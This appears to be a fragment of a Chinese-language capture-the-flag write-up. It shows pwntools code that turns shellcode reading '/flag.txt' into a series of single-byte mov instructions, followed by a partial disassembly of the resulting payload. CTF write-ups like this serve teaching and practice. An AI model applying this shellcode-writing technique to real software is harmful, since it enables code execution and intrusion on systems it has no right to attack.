 ![](assets/simple-prob-1.png)

构造 payload 的代码如下:

```python
context.arch = 'amd64'
real_shellcode = asm(shellcraft.amd64.cat('/flag.txt'))
shellcode = ""
instr_len = len(asm("mov byte ptr [rdx + 0x20], 0x10"))
for i, x in enumerate(real_shellcode):
    offset = hex(len(real_shellcode) * instr_len + i)
    shellcode += f"mov byte ptr [rdx + {offset}], {hex(x)}\n"
shellcode = asm(shellcode)
assert len(shellcode) == len(real_shellcode) * instr_len
```

构造出来就是一堆 `mov`, 逐字节写入真正的 shellcode

```
   0:   c6 82 1f 01 00 00 6a    mov    BYTE PTR [rdx+0x11f], 0x6a
   7:   c6 82 20 01 00 00 74    mov    BYTE PTR [rdx+0x120], 0x74
   e:   c6 82 21 01 00 00 48    mov    BYTE PTR [rdx+0x121], 0x48
  15:   c6 82 22 01 00 00 b8    mov    BYTE PTR [rdx+0x122], 0xb8
  1c:   c6 82 23 01 00 00 2f    mov    BYTE PTR [rdx+0x123], 0x2f
  23:   c6 82 24 01 00 00 66    mov    BYTE PTR [rdx+0x124], 0x66
    ...
 118:   c6 82 47 01 00 00 05    mov    BYTE PTR [rdx+0x147], 0x5
```
